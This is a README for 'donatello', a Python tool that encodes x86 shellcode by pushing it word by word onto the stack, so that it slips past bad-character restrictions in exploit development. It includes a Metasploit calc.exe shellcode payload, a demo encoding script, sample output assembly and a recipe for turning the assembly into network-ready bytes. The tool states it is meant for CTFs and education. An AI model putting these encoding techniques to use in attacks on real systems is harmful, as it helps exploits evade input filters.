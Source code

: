 # donatello

## Synopsis

`donatello` is a Python library and command-line tool for encoding binary payloads by writing them word-by-word to the stack. It's core functionality comes from the [satisfaction of Boolean expressions](https://en.wikipedia.org/wiki/Boolean_satisfiability_problem).


## Installation

Download the latest packaged version from PyPI:
```sh
pip install donatello
```

Or get the bleeding-edge version from version control:
```sh
pip install https://github.com/welchbj/donatello/archive/master.tar.gz
```


## Basic Usage

You can use `donatello` as both a Python library and a command-line tool. When encoding entire payloads, it's best to write a quick Python script and use `donatello` as a library. Here's a simple script to do some basic encoding on a [Metasploit](https://www.metasploit.com/) payload, with every other of its characters specified as a bad character:
```python
"""Simple demo for encoding a metasploit payload with a few bad chars."""

from donatello import encode_x86_32

payload = (
    # msfvenom -p windows/exec cmd="calc.exe" -f c
    b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
    b"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    b"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
    b"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
    b"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
    b"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
    b"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
    b"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
    b"\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5"
    b"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
    b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
)

bad_chars = bytearray([payload[i] for i in range(len(payload)) if not i % 2])


if __name__ == '__main__':
    print(encode_x86_32(payload, bad_chars, max_factors=5))
```

Running this script would generate the following assembly program:
```assembly
[BITS 32]
global _start
_start:
;
;
; clear eax
and eax,dword 0x04040404
and eax,dword 0x80808080
;
; build value 0x90909000
xor eax,dword 0x9090907e
and eax,dword 0x90909080
push eax
;
;
; clear eax
and eax,dword 0x04040404
and eax,dword 0x80808080
;
; build value 0x6578652e
xor eax,dword 0x65f865ae
and eax,dword 0x657c656e
push eax

...<snip>...

; clear eax
and eax,dword 0x04040404
and eax,dword 0x80808080
;
; build value 0x0082e8fc
xor eax,dword 0x7ec2e8fe
and eax,dword 0x8092e8fd
push eax
```

When you just need to do a quick factoring of some values for manually-encoded shellcode, the `factor` option in the command-line interface is probably what you're looking for. Here's a quick example that shows how you can quickly find some factors:
```sh
donatello -b "\x12\x34\x56\x78" factor 0x12345678
[I] Attempting to factor target value 0x12345678
[I] Found factorization!
    0x00000000
or  0x5274767c
and 0x92b4d6f8
```


## Assembler recipes

Having the assembly for the encoded payload is nice, but you'll probably want it in a form you can send over the network. To get a C/Python style representation of the `donatello`-generated assembly stored in a file `shellcode.asm`, use:
```sh
nasm shellcode.asm && xxd -p shellcode | sed 's/.\{2\}/\\x&/g' | tr -d '\n'
```


## License

`donatello` is intended for educational purposes and events such as CTFs only and should never be run on machines and/or networks without explicit prior consent. This code is released under the [MIT license](https://opensource.org/licenses/MIT).


## Special Thanks

Many helpful resources were used in the development of this tool, including:

* [MazeGen's x86 reference](http://ref.x86asm.net/coder32.html)
* [NASM](https://www.nasm.us/)
* [Phrack - Writing ia32 alphanumeric shellcodes](http://phrack.org/issues/57/15.html)